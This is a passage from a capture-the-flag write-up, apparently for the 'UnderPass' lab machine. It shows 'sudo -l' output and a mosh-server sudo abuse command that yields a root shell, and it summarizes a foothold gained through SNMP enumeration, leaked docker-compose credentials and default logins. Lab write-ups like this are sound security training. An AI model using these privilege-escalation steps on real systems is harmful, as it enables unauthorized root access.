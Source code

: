 
## Privilege Escalation

After gaining user access, `linpeas` is used to find a command with special permissions.

```

svcMosh@underpass:/var/www/html/dalXXXXXXX/app/operators$ sudo -l
Matching Defaults entries for svcMosh on localhost:
env\_reset, mail\_badpass, secure\_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin, use\_pty
User svcMosh may run the following commands on localhost:
(ALL) NOPASSWD: /usr/bin/mosh-server

```
The user `svcMosh` can run `/usr/bin/mosh-server` with `sudo` and without a password. The default parameter for `mosh` is `--server`. This allows us to execute the command with superuser privileges.

```

svcMosh@underpass:/tmp$ mosh --server="sudo /usr/bin/mosh-server" localhost

```
This command effectively executes the `mosh-server` with `sudo` on the local host, granting a root shell.

---

## Summary
* **User:** The initial foothold was gained by performing a comprehensive scan that included both **TCP** and **UDP** ports, which revealed **SNMP**. SNMP enumeration pointed to the **dalXXXXXXX** service. Further directory brute-forcing revealed a `docker-compose.yml` file with database credentials and the existence of a login panel for operators. The default credentials for `dalXXXXXXX` and a password hash from the user list were used to gain an **SSH** connection.
* **Root:** Privilege escalation was achieved by exploiting a `sudo` misconfiguration that allowed the user to run `mosh-server` with root privileges. By running `mosh --server="sudo /usr/bin/mosh-server" localhost`, a root shell was obtained.
```